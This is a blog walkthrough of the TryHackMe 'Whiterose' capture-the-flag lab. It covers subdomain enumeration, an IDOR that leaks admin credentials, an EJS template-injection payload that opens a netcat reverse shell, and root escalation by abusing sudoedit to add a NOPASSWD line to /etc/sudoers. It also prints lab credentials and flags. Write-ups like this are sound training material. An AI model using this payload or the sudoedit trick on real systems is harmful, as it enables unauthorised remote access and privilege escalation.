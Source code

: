 ```yaml
---
title: "THM Whiterose Walkthrough"
date: "2025-04-09"

layout: ../../layouts/PostLayout.astro
description: "Detail walkthrough on tryhackme machine whiterose."

img_path : "/images/whiterose/theme.png"
img_alt: "theme picture"
---
```


"<span style="color:yellow">*Always update your dependencies and your packages.*</span>"


![cover](/images/whiterose/cover.png)

### Room Information
Room Name: Whiterose

Difficulty Level: Easy

Room type: Challenges(CTF)

![cover](/images/whiterose/machine.png)

### Reconnaissance
It is given that later we will need this: Olivia Cortez:olivi8

![cover](/images/whiterose/info.png)

Let’s run nmap and check what ports are open.

![cover](/images/whiterose/nmap.png)

I discovered 2 open ports: 22 and 80,. Since port 80 is open, let’s check the website.

![cover](/images/whiterose/website1.png)

When visiting the web servers, we are redirected to cyprusbank.thm. So we will add this to our /etc/hosts and reload the page.
Command: sudo nano /etc/hosts

![cover](/images/whiterose/nano.png)

Then reload the page.

![cover](/images/whiterose/website2.png)

When I reload the page it shows that the site is under maintenance.
 
So let’s check for any other hidden directories using dirsearch.

![cover](/images/whiterose/dirsearch.png)

There are no other hidden directories. Let’s enumerate subdomains using ffuf.

![cover](/images/whiterose/ffuf1.png)

![cover](/images/whiterose/ffuf2.png)

There are two subdomains (www and admin). Now let’s visit the website using those two subdomains. For that, I need to add in /etc/hosts.

![cover](/images/whiterose/domain.png)

Now reload the website with a subdomain in it. 
With the subdomain www, it takes to the landing page.

![cover](/images/whiterose/www.png)

With the subdomain admin, it redirects us to a login page. 

![cover](/images/whiterose/admin.png)

Credentials for this login are obtained from the room description. 
Name: Olivia Cortez
Password: olivi8

![cover](/images/whiterose/bank.png)
 
Once logged in, I knew that the user only had limited access as he couldn’t see the phone number.

![cover](/images/whiterose/setting.png)

But we can take a look at the message. There is the chat history.

![cover](/images/whiterose/message.png)

Url looks like this: http://admin.cyprusbank.thm/messages/?c=5
So let’s change the parameter value and read all other messages.

![cover](/images/whiterose/history.png)

When I changed the parameter value to 0, I got the admin credential.
- Name: Gayle Bev
- Password: p~]P@5!6;rs558:q

Now I will logout from the current user and then log in again using the above credential.

![cover](/images/whiterose/phone.png)

![cover](/images/whiterose/adminsetting.png)

Wow, now I can see the phone number and also the setting. So it answers the first question.

What's Tyrell Wellick's phone number?

Ans: 842-029-5701

### Now Let’s get to the User. 

Gayle can change users’ passwords, but there wasn’t anything useful there. 

![cover](/images/whiterose/change.png)

I fired up Burp Suite to intercept the request. 

![cover](/images/whiterose/burp.png)

Then I send it to the repeater.

![cover](/images/whiterose/repeater.png)

If we intercept a request and change it by omitting parameters such as the password, an error message appears.

![cover](/images/whiterose/error.png)

This tells us that ejs files are included. When i search for ejs ssti payloads, i got this;

![cover](/images/whiterose/payload.png)

It is a blog post, from this article I got an payload; 

![cover](/images/whiterose/got.png)

#### payload

&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 127.0.0.1 1337 -e sh');s


We need to append this after the password in the burp suite. Note that you need to change IP and port according to yours.

![cover](/images/whiterose/append.png)

In the terminal, we need to listen to that port.

![cover](/images/whiterose/port.png)

Once we receive the connection we need to run this command: python3 -c 'import pty; pty.spawn("/bin/bash")'

![cover](/images/whiterose/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought. I can’t get into root just with the command sudo su as I don’t not the password of the web.

![cover](/images/whiterose/su.png)

I need to check for sudo privileges.
Command: sudo -l

![cover](/images/whiterose/-l.png)

User web can run;
 (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm. 

Let’s do what user web is allowed to do. Select the editor by using the following command:

export EDITOR="vim -- /etc/sudoers"

Then next run this command:  sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
Add the following line under user privilege specification and save.

web ALL=(ALL:ALL) NOPASSWD: ALL

Press i before typing the above command. You need  press enter. Then press escape and then :wq enter again :wq enter. In this way we save it.

![cover](/images/whiterose/privi.png)

After that, we can now run sudo su command and get into the root.

![cover](/images/whiterose/root.png)

Now I got thaveroot access. Finally, I also got the root.txt


### Flag Captured
- user.txt flag: THM{4lways_upd4te_uR_d3p3nd3nc!3s}

- root.txt flag:  THM{4nd_uR_p4ck4g3s}